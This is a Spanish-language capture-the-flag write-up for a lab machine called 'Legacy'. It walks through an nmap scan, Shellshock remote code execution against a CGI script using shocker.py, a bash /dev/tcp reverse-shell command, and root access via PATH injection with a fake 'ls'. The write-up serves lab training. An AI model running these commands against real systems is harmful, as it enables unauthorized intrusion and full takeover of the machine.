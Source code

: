 # Legacy - HACKMEX

**OS**: Linux   
**Dificultad**: Medium   
**Puntos**: 6,200   
**Solucionado por**: M41w4r3

## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
```
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
```

## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN

Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python 
```python
shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
```
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : /bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1
y asi pude obtener una reverse shell con el servidor

## Privilege Escalation 

identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos

despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el ls asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : echo "/bin/sh" > ls -> esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : export PATH=/tmp/:$PATH
despues ejecutamos el archivo y nos da la shell de root

## Archivos utilizados 
*shocker.py*
## Referencias

- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
- https://github.com/nccgroup/shocker 

